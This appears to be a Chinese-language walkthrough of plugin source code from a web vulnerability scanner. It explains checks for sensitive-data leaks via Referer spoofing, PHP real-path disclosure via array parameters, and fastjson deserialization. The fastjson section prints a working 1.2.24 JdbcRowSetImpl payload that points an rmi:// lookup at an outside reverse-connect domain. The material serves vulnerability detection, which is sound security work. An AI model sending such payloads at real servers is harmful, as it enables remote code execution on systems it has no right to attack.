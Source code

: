 ```python
```

in的话  
```python
sensitive_list = ['username', 'memberid', 'nickname', 'loginid', 'mobilephone', 'userid', 'passportid',
                    'profile', 'loginname', 'loginid',
                    'email', 'realname', 'birthday', 'sex', 'ip']
```

匹配上的话在修改下referer 看是否可以继续访问获取信息可以的话认为漏洞存在  

```python
headers["Referer"] = fake_domain
req = requests.get(self.requests.url, headers=headers)
result2 = self.check_sentive_content(req.text)
if not result2:
    return
```


###### php_real_path 信息泄露

根据desc说明 对于一些php网站，将正常参数替换为[]可能造成真实信息泄漏  

所以先判断是否是php的 是的话 对所有参数的key换成k+[]的形式
再次发起请求 并且判断 `"Warning" "array given in` 是否存在响应页面中  

参数增加[]  
```python
for k, v in iterdata.items():
    data = copy.deepcopy(iterdata)
    del data[k]
    key = k + "[]"
    data[key] = v
```

###### poc_fastjson 打fastjson的

如果是json的或者类似json的post请求的  
`if self.requests.post_hint == POST_HINT.JSON or self.requests.post_hint == POST_HINT.JSON_LIKE:`  

创建一个反连平台api实例然后生成token 域名 传入payload生成函数  
发起请求 测试dnslog是否存在  

反连平台api  
```python
rmi = reverseApi()
if rmi.isUseReverse():
    rmidomain = rmi.generate_rmi_token()
    rmi_token = rmidomain["token"]
    fullname = rmidomain["fullname"]
```

1.2.24的payload  

```python
# for fastjson 1.2.24
fastjson_payload = {
    random_str(4): {
        "@type": "com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName": "rmi://{}".format(domain),
        "autoCommit": True
    }
}
```
